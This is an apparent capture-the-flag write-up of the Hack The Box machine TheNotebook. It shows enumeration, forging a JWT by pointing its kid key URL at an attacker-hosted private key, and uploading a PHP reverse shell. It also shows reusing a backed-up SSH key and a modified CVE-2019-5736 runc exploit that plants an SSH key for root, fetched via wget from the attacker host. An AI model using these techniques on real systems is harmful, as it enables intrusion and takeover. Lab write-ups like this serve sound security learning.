


# TheNotebook

This is the write-up for the box TheNotebook that got retired at the 31st July 2021.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.230   thenotebook.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/thenotebook.nmap 10.10.10.230
```

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
|_http-server-header: nginx/1.14.0 (Ubuntu)
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service is a custom-developed website with the option to _register_ and _login_.
When trying to login with _admin_, it shows an error message if a user exists or not, which can be used to enumerate usernames:
```
# Username does exist
Login Failed! Reason: Incorrect Password

# Username does not exist
Login Failed! Reason: User doesn't exist.
```

After registering a user, it shows a message that they can be accessed on _/notes_.
On there it is possible to add a title and contents for a note.

It forwards to a generated directory _/dee51418-9e3e-47fe-925e-2a1de64e7ebe/notes_ while the directory _/notes_ cannot be found.
The cookies also show this string in the value for _uuid_ and another cookie _auth_ with a **JSON Web Token (JWT)**:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InR(...)
```

The token consists of three different parts separated by a dot symbol and can be decoded with **Base64**:
```
echo eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9 | base64 -d

{"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}
```
```
echo eyJ1c2VybmFtZSI6InRlc3QxIiwiZW1haWwiOiJ0ZXN0MUB0ZXN0LmxvY2FsIiwiYWRtaW5fY2FwIjowfQ | base64 -d

{"username":"test1","email":"test1@test.local","admin_cap":0}
```

The third part is the signature, which does not display anything readable.

The value _admin_cap_ seems to define if a user has administrative capabilities, so we need to set it to 1 to gain privileged access.
To change that, it has to be signed with a valid public and private key.

It seems to get that information from the service on port 7070 on localhost, so lets proof that by changing the IP to our client:
```
echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.5:7070/privKey.key"}' | base64 -w 0

eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC41OjcwNzAvcHJpdktleS5rZXkifQo
```

After replacing the string and sending the token to the server, it sends a request to our **Netcat** listener on port 7070:
```
Ncat: Connection from 10.10.10.230.
GET /privKey.key HTTP/1.1
Host: 10.10.14.5:7070
User-Agent: python-requests/2.25.1
(...)
```

Creating our own private key to sign the JWT:
```
ssh-keygen -t rsa -b 5096 -m PEM -f jwtRS256.key
```
```
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
```

The signatures and the changes can be done with [jwt.io](https://jwt.io/):



Creating a symbolic link from the new key to the name _privKey.key_:
```
ln -s jwtRS256.key privKey.key
```

Starting a web server on port 7070:
```
python3 -m http.server 7070
```

After replacing the JWT token in the web application with our generated one, it will connect to our webserver on port 7070 and validate the token.
This token has _admin_cap_ set to 1 and there is a new menu called _Admin Panel_ on _/admin_.

On the admin panel it is possible to view all notes and to upload files:



Another potential username is _noah_ and there is a note from the admin of a security issue:
```
Have to fix this issue where PHP files are being executed :/. This can be a potential security issue for the server.
```

Lets use the upload feature to upload _php-reverse-shell.php_ from the **Laudanum scripts** to gain a reverse shell connection.
It gets uploaded with a random string in the name and can be found in the root directory:
```
http://10.10.10.230/881426a1bbba7c5a05723d01267a120a.php
```

After browsing there, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

After enumerating the file system and checking timestamps, this box was created around mid of February, so files can be searched that were written in that timespan:
```
find / -newermt "2021-02-12" ! -newermt "2021-02-19" 2>/dev/null | grep -v '/etc\|/var/lib\|/sys\|/proc\|/boot\|/lib\|/usr'
```

The file _/var/backups/home.tar.gz_ looks interesting, so lets move it to _/tmp_ and decompress it:
```
cp home.tar.gz /tmp/
cd /tmp
tar -xzvf home.tar.gz
```

It contains the files of the home folder of _noah_ and in _/.ssh_ is a private SSH key that can be copied and used to login as this user:
```
ssh -i noah.key noah@10.10.10.230
```

### Privilege Escalation to root

The user _noah_ can run a **Docker** command with root privileges:
```
User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

In the Docker container is the file _privKey.key_, so this is the service on port 7070, but there is nothing interesting in there.
The command `docker -v` shows that it runs [Docker version 18.06.0](https://docs.docker.com/engine/release-notes/18.06/) and this version was released in 2018 and has vulnerabilities.

It is affected by the critical vulnerability **CVE-2019-5736** which has [PoC code on GitHub](https://github.com/Frichetten/CVE-2019-5736-PoC).

Creating an SSH key:
```
ssh-keygen -f notebook
```

Modifying the payload so it will upload our SSH key into the _/root/.ssh_ folder of the box:
```
(...)
var payload = "#!/bin/bash \n mkdir -p /root/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAB(...)' > /root/.ssh/authorized_keys" + shellCmd
(...)
```

Compiling the code into a binary:
```
go build cve-2019-5673.go
```

Starting a shell in the container:
```
sudo /usr/bin/docker exec -it webapp-dev01 sh
```

Downloading the binary from our local client into the container:
```
# wget 10.10.14.5:8000/cve-2019-5673
```

Changing permissions to make it executable:
```
# chmod +x cve-2019-5673
```

Executing the binary:
```
# ./cve-2019-5673
```
```
[+] Overwritten /bin/sh successfully
(...)
[+] The command executed is#!/bin/bash
mkdir -p /root/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ(...)' > /root/.ssh/authorized_keys
```

The exploit will write our SSH key into the _authorized_keys_ and it is possible to log in as root!
```
ssh -i notebook root@10.10.10.230
```
